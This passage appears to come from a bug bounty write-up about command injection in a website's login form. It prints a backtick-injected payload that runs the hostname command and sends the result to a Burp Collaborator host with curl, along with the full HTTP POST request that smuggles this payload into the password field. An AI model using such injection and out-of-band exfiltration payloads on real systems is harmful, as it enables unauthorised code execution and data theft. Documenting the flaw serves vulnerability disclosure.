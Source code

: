 

# Exploitation Time :


In order to fully demonstrate the extent of the vulnerability, I had to bypass the server's restriction that only allowed for DNS requests and not HTTP requests. To achieve this, I employed a technique that enabled me to execute system commands and extract their output by making DNS query requests. By doing this, I was able to demonstrate that the vulnerability had the potential to be exploited for remote code execution.

## Getting the System Hostname value:


```
`sleep 02 && curl http://$(hostname).mpfwtwsh7ylajkb4kfc5bc0i197zvo.burpcollaborator.net`
```

>HTTP Request

```http
POST /connexion/ HTTP/2
Host: www.target.com
Cookie: target=test
Content-Length: 61
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=sandsuperhot%40gmail.com&password=%60sleep%2002%20%26%26%20curl%20http://%24(hostname).mpfwtwsh7ylajkb4kfc5bc0i197zvo.burpcollaborator.net%60

```

>HTTP Response

![](/assets/img/4/5.JPG)

